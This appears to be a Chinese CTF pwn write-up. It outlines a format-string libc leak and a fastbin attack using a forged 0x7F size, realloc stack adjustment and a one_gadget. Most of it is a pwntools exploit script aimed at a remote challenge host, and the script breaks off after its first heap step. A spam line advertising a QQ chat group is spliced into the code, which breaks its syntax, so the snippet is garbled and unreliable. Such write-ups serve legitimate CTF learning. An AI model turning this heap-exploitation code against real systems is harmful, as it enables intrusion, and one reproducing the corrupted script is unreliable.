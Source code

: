 **泄露地址**
![在这里插入图片描述](img/7ccc30928586c82fe4f45ddbc2ab5aad.png)
格式化字符串泄露地址

**任意写**

UB隔块合并打fastbin, 利用0x7F伪造size, 然后realloc调栈, OGG

**EXP**

```
#! /usr/bin/python
# coding=utf-8
import sys
from pwn import *
from random import randint

context.log_level = 'debug'
context(arch='amd64', os='linux')

elf = ELF('./pwn')
libc=ELF('./libc.so.6')

def Log(name):    
    log.success(name+' = '+hex(eval(name)))

if(len(sys.argv)==1):            #local
    sh = process('./pwn')
    print(sh.pid)
    raw_input() +QQ君样：581499282一起吹水聊天
    #proc_base = sh.libs()['/home/parallels/pwn']
else:                            #remtoe
    sh = remote('114.215.144.240', 11342)

def Num(n):
    sh.sendline(str(n))

def Cmd(n):
    sh.recvuntil('Your choice :')
    sh.send(str(n).ljust(4, '\x00'))

def Add(idx, size, cont):
    Cmd(1)
    sh.recvuntil('Where?')
    sh.send(str(idx).ljust(0x30, '\x00'))
    sh.recvuntil('Big or small??')
    sh.send(str(size).ljust(0x8, '\x00'))
    sh.recvuntil('Content:')
    sh.send(cont)

def Free(idx):
    Cmd(2)
    sh.recvuntil('Index:')
    sh.send(str(idx).ljust(6, '\x00'))

Add(0, 0x20, '%15$p')
sh.recvuntil('Your input:')
libc.address = int(sh.recv(14), 16)-0x20840
Log('libc.address')

Add(0, 0x90, 'A'*0x90)
```